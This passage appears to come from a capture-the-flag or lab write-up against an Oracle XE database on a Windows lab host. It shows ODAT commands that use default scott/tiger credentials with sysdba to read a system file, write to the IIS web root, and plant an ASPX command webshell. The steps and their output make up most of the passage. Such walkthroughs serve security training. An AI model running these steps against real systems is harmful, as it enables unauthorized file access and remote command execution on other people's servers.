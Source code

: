 ```console
SYS                            XDB_WEBSERVICES_WITH_PUBLIC    YES YES NO

32 rows selected.
```

### Webshell Upload by Oracle sysdba

**POC**: Interaction with local file system with Oracle sysdba

1. READ: able to read file on Windows

```console
└─╼$ python odat.py utlfile -s 10.129.133.187 -U scott -P tiger -d XE --sysdba --getFile "C://windows//system32//drivers//etc" hosts /tmp/hosts

[1] (10.129.133.187:1521): Read the hosts file stored in C://windows//system32//drivers//etc on the 10.129.133.187 server
[+] Data stored in the hosts file sored in C://windows//system32//drivers//etc (copied in /tmp/hosts locally):
b"# Copyright (c) 1993-2009 Microsoft Corp.\n#\n# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.\n#\n# This file contains the mappings of IP addresses to host names. Each\n# entry should be kept on an individual line. The IP address should\n# be placed in the first column followed by the corresponding host name.\n# The IP address and the host name should be separated by at least one\n# space.\n#\n# Additionally, comments (such as these) may be inserted on individual\n# lines or following the machine name denoted by a '#' symbol.\n#\n# For example:\n#\n#      102.54.94.97     rhino.acme.com          # source server\n#       38.25.63.10     x.acme.com              # x client host\n\n# localhost name resolution is handled within DNS itself.\n#\t127.0.0.1       localhost\n#\t::1             localhost\n"
```

2. WRITE: able to write file on Windows -> read webshell

```console
└─╼$ python odat.py utlfile -s 10.129.133.187 -U scott -P tiger -d XE --sysdba --putFile "C:\\inetpub\\wwwroot" qwe.txt qwe.txt

[1] (10.129.133.187:1521): Put the qwe.txt local file in the C:\inetpub\wwwroot folder like qwe.txt on the 10.129.133.187 server
[+] The qwe.txt file was created on the C:\inetpub\wwwroot directory on the 10.129.133.187 server like the qwe.txt file

└─╼$ curl http://10.129.133.187/qwe.txt
this is qwe.
```

**Exploit**: write aspx webshell into IIS server directory

```console
└─╼$ python odat.py utlfile -s 10.129.133.187 -U scott -P tiger -d XE --sysdba --putFile "C:\\inetpub\\wwwroot" shell.aspx /usr/share/webshells/aspx/cmdasp.aspx

[1] (10.129.133.187:1521): Put the /usr/share/webshells/aspx/cmdasp.aspx local file in the C:\inetpub\wwwroot folder like shell.aspx on the 10.129.133.187 server
[+] The /usr/share/webshells/aspx/cmdasp.aspx file was created on the C:\inetpub\wwwroot directory on the 10.129.133.187 server like the shell.aspx file
```
